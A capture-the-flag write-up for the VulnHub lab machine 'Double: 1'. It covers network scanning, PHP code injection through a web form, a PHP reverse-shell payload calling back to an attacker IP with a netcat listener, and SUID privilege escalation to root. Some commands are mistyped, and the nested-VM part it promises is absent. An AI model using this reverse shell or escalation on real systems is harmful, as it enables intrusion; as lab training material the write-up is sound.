


# Double-1
## Overview :
DOUBLE: 1 is a Linux-based virtual machine game released on the VulnHub platform with easy to medium difficulty levels. Designed by foxlox, this CTF uses the “Double Trouble” concept, where participants are gradually confronted with two target systems: the main machine and a nested VM within it.

## Objective :
The primary goal of this challenge is to gain root access on both systems through rigorous enumeration, web exploitation, steganography, remote command execution (RCE), privilege escalation, and nested VM import and exploitation.
This engine is ideal for participants looking to strengthen their foundation in web exploitation techniques, hidden file analysis, and privilege escalation in a simulated, real-world environment.

## The Hack :
As usual, the first thing we do is find the target IP address by checking the machines on our network, using tools like arp-scan, NetDiscover, Angry IP, and others. Since I'm using macOS, I'm using arp-scan, so let's get started.
```
arp-scan —intefaces=en0 --
```



The IP address 192.168.0.103 will be our target. Once we have it, let's run an Nmap scan to check for open ports and running services.
```
nmap -A -p- 192.168.0.103 -Pn
```


Nmap has identified some interesting open ports. As usual, let's check out the website.


Hmm, it looks like a blank book. Here you can see the Production and Test entries, let's take a look.



Login page? YES. So I've tried some default credentials but none of them worked. So let's check the Production entry.


Looking at the input, it asks for a command and a code. So, I used the code (9001) and the valid Linux command 'id'.


However, the command wasn't executed. However, I did see some results. For example, I now have a new GET parameter "out." I also see the date and time, as well as my machine's IP address. So, I can conclude that some variables have been used. So, I tried executing some PHP code.
```
<?php $sock=fsockopen("192.168.0.101",1337);exec("bash <&3 >&3 2>&3");
```


Before sending the command, open a new terminal and use netcat to get a reverse connection:
```
Nc -lnvp 1337
```


Finally, it's time to elevate privileges and move to the top. Diani has two users, ppp and fox. However, I couldn't find a way to elevate privileges for either user. Interestingly, when I looked at the SUID binaries, there were two that could grant me root access.
```
find / -perm -4000 -exec ls -al {} \; 2>/dev/null
```


Yes, that's it. Let's execute it. There are actually two ways to reach the top. I can use **[nice](https://gtfobins.github.io/gtfobins/nice/#suid)** or **[chroot](https://gtfobins.github.io/gtfobins/chroot/#suid)**.


Conclusion :
While not technically complex, DOUBLE: 1 requires participants to think strategically, thoroughly observe file structures and systems, and systematically organize exploitation steps. Its added value lies in the nested machine concept, which is rare in beginner-intermediate CTFs and provides an extra challenge while realistically simulating complex infrastructure.

